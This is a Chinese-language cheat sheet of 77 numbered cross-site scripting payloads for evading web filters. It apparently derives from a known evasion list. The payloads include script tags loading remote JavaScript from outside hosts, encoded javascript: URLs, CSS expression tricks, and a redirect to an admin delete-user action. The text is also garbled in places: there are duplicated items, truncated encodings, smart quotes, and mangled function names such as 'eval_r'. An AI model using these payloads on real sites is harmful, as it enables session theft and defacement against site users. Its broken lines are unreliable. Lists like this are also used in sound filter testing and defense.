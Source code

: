 (1)普通的XSS JavaScript注入
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(2)IMG标签XSS使用JavaScript命令
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(3)IMG标签无分号无引号
<IMG SRC=javascript:alert(‘XSS’)>

(4)IMG标签大小写不敏感
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>

(5)HTML编码(必须有分号)
<IMG SRC=javascript:alert(“XSS”)>

(6)修正缺陷IMG标签
<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

(7)formCharCode标签(计算器)
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

(8)UTF-8的Unicode编码(计算器)
<IMG SRC=jav..省略..S')>

(9)7位的UTF-8的Unicode编码是没有分号的(计算器)
<IMG SRC=jav..省略..S')>

(10)十六进制编码也是没有分号(计算器)
<IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

(11)嵌入式标签,将Javascript分开
<IMG SRC=”jav ascript:alert(‘XSS’);”>

(12)嵌入式编码标签,将Javascript分开
<IMG SRC=”jav ascript:alert(‘XSS’);”>

(13)嵌入式换行符
<IMG SRC=”jav ascript:alert(‘XSS’);”>

(14)嵌入式回车
<IMG SRC=”jav ascript:alert(‘XSS’);”>

(15)嵌入式多行注入JavaScript,这是XSS极端的例子
<IMG SRC=”javascript:alert(‘XSS‘)”>

(16)解决限制字符(要求同页面)
<script>z=’document.’</script>
<script>z=z+’write(“‘</script>
<script>z=z+’<script’</script>
<script>z=z+’ src=ht’</script>
<script>z=z+’tp://ww’</script>
<script>z=z+’w.zoyzo’</script>
<script>z=z+’.cn/1.’</script>
<script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script>
<script>eval_r(z)</script>

(17)空字符
perl -e ‘print “<IMG SRC=javascript:alert(”XSS”)>”;’ > out

(18)空字符2,空字符在国内基本没效果.因为没有地方可以利用
perl -e ‘print “<SCRIPT>alert(”XSS”)</SCRIPT>”;’ > out

(19)Spaces和meta前的IMG标签
<IMG SRC=” javascript:alert(‘XSS’);”>

(20)Non-alpha-non-digit XSS
<SCRIPT/XSS SRC=”http://3w.org/XSS/xss.js”></SCRIPT>

(21)Non-alpha-non-digit XSS to 2
<BODY onload!#$%&()*~+-_.,:;?@[/|]^`=alert(“XSS”)>

(22)Non-alpha-non-digit XSS to 3
<SCRIPT/SRC=”http://3w.org/XSS/xss.js”></SCRIPT>

(23)双开括号
<<SCRIPT>alert(“XSS”);//<</SCRIPT>

(24)无结束脚本标记(仅火狐等浏览器)
<SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

(25)无结束脚本标记2
<SCRIPT SRC=//3w.org/XSS/xss.js>

(26)半开的HTML/JavaScript XSS
<IMG SRC=”javascript:alert(‘XSS’)”

(27)双开角括号
<iframe src=http://3w.org/XSS.html>

(28)无单引号 双引号 分号
<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>

(29)换码过滤的JavaScript
[code]”;alert(‘XSS’);//

(30)结束Title标签
</TITLE><SCRIPT>alert(“XSS”);</SCRIPT>

(31)Input Image
<INPUT SRC=”javascript:alert(‘XSS’);”>

(32)BODY Image
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>

(33)BODY标签
<BODY(‘XSS’)>

(34)IMG Dynsrc
<IMG DYNSRC=”javascript:alert(‘XSS’)”>

(35)IMG Lowsrc
<IMG LOWSRC=”javascript:alert(‘XSS’)”>

(36)BGSOUND
<BGSOUND SRC=”javascript:alert(‘XSS’);”>

(37)STYLE sheet
<LINK REL=”stylesheet” HREF=”javascript:alert(‘XSS’);”>

(38)远程样式表
<LINK REL=”stylesheet” HREF=”http://3w.org/xss.css”>

(39)List-style-image(列表式)
<STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS

(40)IMG VBscript
<IMG SRC=’vbscript:msgbox(“XSS”)’></STYLE><UL><LI>XSS


(41)META链接url
<META HTTP-EQUIV=”refresh” CONTENT=”0; URL=http://;URL=javascript:alert(‘XSS’);”>

(42)Iframe
<IFRAME SRC=”javascript:alert(‘XSS’);”></IFRAME>

(43)Frame
<FRAMESET><FRAME SRC=”javascript:alert(‘XSS’);”></FRAMESET>

(44)Table
<TABLE BACKGROUND=”javascript:alert(‘XSS’)”>

(45)TD
<TABLE><TD BACKGROUND=”javascript:alert(‘XSS’)”>

(46)DIV background-image
<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>

(47)DIV background-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)
<DIV STYLE=”background-image: url( javascript:alert(‘XSS’))”>

(48)DIV expression
<DIV STYLE=”width: expression_r(alert(‘XSS’));”>

(49)STYLE属性分拆表达
<IMG STYLE=”xss:expression_r(alert(‘XSS’))”>

(50)匿名STYLE(组成:开角号和一个字母开头)
<XSS STYLE=”xss:expression_r(alert(‘XSS’))”>

(51)STYLE background-image
<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>

(52)IMG STYLE方式
exppression(alert(“XSS”))’>

(53)STYLE background
<STYLE><STYLE type=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>

(54)BASE
<BASE HREF=”javascript:alert(‘XSS’);//”>

(55)EMBED标签,你可以嵌入FLASH,其中包涵XSS
<EMBED SRC=”http://3w.org/XSS/xss.swf” ></EMBED>

(56)在flash中使用ActionScrpt可以混进你XSS的代码
a=”get”;
b=”URL(”";
c=”javascript:”;
d=”alert(‘XSS’);”)”;
eval_r(a+b+c+d);

(57)XML namespace.HTC文件必须和你的XSS载体在一台服务器上
<HTML xmlns:xss>
<?import namespace=”xss” implementation=”http://3w.org/XSS/xss.htc”>
<xss:xss>XSS</xss:xss>
</HTML>

(58)如果过滤了你的JS你可以在图片里添加JS代码来利用
<SCRIPT SRC=””></SCRIPT>

(59)IMG嵌入式命令,可执行任意命令
<IMG SRC=”http://www.zoyzo.cn/a.php?a=b”>

(60)IMG嵌入式命令(a.jpg在同服务器)
Redirect 302 /a.jpg http://www.zoyzo.cn/admin.asp&deleteuser

(61)绕符号过滤
<SCRIPT a=”>” SRC=”http://3w.org/xss.js”></SCRIPT>

(62)
<SCRIPT =”>” SRC=”http://3w.org/xss.js”></SCRIPT>

(63)
<SCRIPT a=”>” ” SRC=”http://3w.org/xss.js”></SCRIPT>

(64)
<SCRIPT “a=’>’” SRC=”http://3w.org/xss.js”></SCRIPT>

(65)
<SCRIPT a=`>` SRC=”http://3w.org/xss.js”></SCRIPT>

(66)
<SCRIPT a=”>’>” SRC=”http://3w.org/xss.js”></SCRIPT>

(67)
<SCRIPT>document.write(“<SCRI”);</SCRIPT>PT SRC=”http://3w.org/xss.js”></SCRIPT>

(68)URL绕行
<A HREF=”http://127.0.0.1/”>XSS</A>

(69)URL编码
<A HREF=”http://3w.org”>XSS</A>

(70)IP十进制
<A HREF=”http://3232235521″>XSS</A>

(71)IP十六进制
<A HREF=”http://0xc0.0xa8.0×00.0×01″>XSS</A>

(72)IP八进制
<A HREF=”http://0300.0250.0000.0001″>XSS</A>

(73)混合编码
<A HREF=”h
tt p://6 6.000146.0×7.147/”">XSS</A>

(74)节省[http:]
<A HREF=”//www.exehack.net/”>XSS</A>

(75)节省[www]
<A HREF=”https://www.exehack.net/”>XSS</A>

(76)绝对点绝对DNS
<A HREF=”https://www.exehack.net./”>XSS</A>

(77)javascript链接
<A HREF=”javascript:document.location=’https://www.exehack.net/’”>XSS</A>
